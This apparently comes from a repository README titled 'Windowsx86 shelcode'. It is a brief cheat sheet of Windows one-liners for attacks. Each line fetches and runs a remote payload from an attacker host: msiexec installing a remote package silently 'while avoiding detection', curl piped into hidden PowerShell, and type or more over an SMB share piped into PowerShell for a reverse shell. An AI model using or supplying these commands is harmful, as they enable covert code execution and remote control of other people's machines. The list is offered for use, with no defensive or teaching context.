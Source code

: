 # Windowsx86 shelcode

1). Windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.
	Command-Line:  msiexec /i http://server/package.msi /qn

2). Windows 10 version 1803 (and earlier, with insider build 17063) includes a native curl.exe (and tar.exe ) in C:\Windows\System32\, which you can access right from your regular CMD.
	Command-Line: curl http://<attacker-ip>/<payload-name>.txt | powershell -w h

3). Some new ways of getting a reverse shell using windows one-liner:
	Command-Line: type \\<attacker-ip>\<payload-name>.txt | powershell -w h
	Command-Line: more \\<attacker-ip>\<payload-name>.txt | powershell -w h
